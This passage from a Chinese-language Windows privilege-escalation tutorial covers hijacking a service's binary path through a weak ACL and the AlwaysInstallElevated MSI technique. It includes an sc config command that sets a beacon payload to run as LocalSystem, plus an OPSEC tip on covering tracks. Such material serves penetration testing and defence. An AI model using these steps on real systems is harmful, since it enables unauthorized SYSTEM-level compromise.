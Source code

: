 ```plaintext
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [3] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SERVICE
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS
```

因此任意一个用户都有权限修改服务程序路径。这里将其设置为 Payload，并把运行服务的用户设置为 SYSTEM。最后重启服务获得 SYSTEM 权限。

```plaintext
E:\Downloads>sc config ServicePrivilegeEscalation binpath= "\"C:\Windows\Tasks\beacon.exe\"" obj= LocalSystem
[SC] ChangeServiceConfig SUCCESS
```

*OPSEC：要注意不管是替换程序还是修改程序路径，最后都要恢复原样，避免服务异常。*

### 1.4 AlwaysInstallElevated

AlwaysInstallElevated 提权不是很新的利用手法，查到的资料最早可以追溯到 2013 年 Scott Sutherland 写的文章 [Bypassing Anti-Virus with Metasploit MSI Files](https://www.netspi.com/blog/technical/network-penetration-testing/bypassing-anti-virus-with-metasploit-msi-files/)。

原理是管理员在组策略启动 AlwaysInstallElevated 规则，在安装 MSI 包时会以 SYSTEM 权限运行。具体怎么启用，有两种方法，第一种是 gpedit.exe 中开启两条组策略：

-   计算机配置 -> 管理模板 -> Windows 组件 -> Windows Installer -> 始终以提升的权限进行安装
    
-   用户配置 -> 管理模板-> Windows 组件 -> Windows Installer -> 始终以提升的权限进行安装
    

> This option is equivalent to granting full administrative rights, which can pose a massive security risk. Microsoft strongly discourages the use of this setting.
> 
> [AlwaysInstallElevated - Win32 apps | Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated)

启动组策略后自动在注册表创建对应选项，第一行计算机配置，第二行用户配置。

```plaintext
PS C:\Users\123> reg query HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
C:\Users\123\Desktop>reg query HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```
